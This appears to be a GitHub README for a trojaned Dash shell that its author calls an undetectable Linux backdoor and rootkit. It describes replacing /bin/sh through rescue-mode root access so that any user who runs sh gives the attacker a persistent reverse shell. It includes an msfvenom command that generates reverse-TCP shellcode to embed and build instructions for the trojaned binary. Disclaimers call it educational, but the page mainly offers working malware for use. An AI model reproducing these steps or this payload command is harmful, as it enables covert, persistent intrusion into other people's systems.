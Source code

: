 # Dash shell Linux Trojan Backdoor (Undetectable Mar 29, 2023)

The purpose of this is to demonstrate what security risks there are when someone gains physical access to your computer. 

# WARNING
THIS CODE IS MALWARE!!! IT IS A LINUX TROJAN BACKDOOR! IT WILL OPEN A BACKDOOR INTO YOUR COMPUTER SYSTEM AND WILL ALLOW UNAUTHORIZED ACCESS TO IT. EXERCISE EXTREME CAUTION AND USE SECURITY BEST PRACTICES FOR EDUCATION USE. 

# Possiple attack
An attack might look like this: Enter rescue mode and pop a root shell without a password. Replace the /bin/sh binary with this rootkit. The users probably won't know. The shell will still be 100% functional. 
Use this for persistence so the next time an authorized user accesses their account (with the 'sh' shell), you will receive a reverse shell that persists (in a new process) even after the terminal is closed.

The modified code is well documented. 
Change the shellcode in the `pskexec_dash()` function.
You can use a command like `msfvenom -p linux/x64/shell_reverse_tcp PrependFork=true LHOST=0.0.0.0 LPORT=3443 -f raw > shellcode.bin.tmp; xxd -i shellcode.bin.tmp > shellcode-addme.c; rm shellcode.bin.tmp` to generate a replacement. Make sure to change the IP address and port number in the above command to your server.

If you find this code useful, please leave a star ⭐.

# Build
Run the following commands.
```sh
./autogen.sh
./configure
make

# Optional
strip ./src/dash

# DO NOT RUN `make install` OR THE MALWARE WILL INSTALL ON YOUR COMPUTER!!!
```
The binary is located in `./src/dash`.


# Disclaimer
This project was developed for security research, my own curiosity, and ethical hacking, educational purposes. It was intended to be used responsibly. Do not use this code for anything illegal in your jurisdiction. LICENSE TERMS APPLY.

Hack responsibly.

# Requests
If anyone finds this code useful I can port it to other linux binaries. This rootkit is easy to integrate to any other GNU/Linux C/C++ program.

# LEGAL NOTICE
The creators of the orginal "Dash" Software and their affiliates do not support or endorse the project titled "dash-shell-rootkit". The use of the Software in the project is solely at the discretion of the project's creators and contributors. See the COPING file for the previous "Dash" license.


If you find this code useful, please leave a star ⭐.
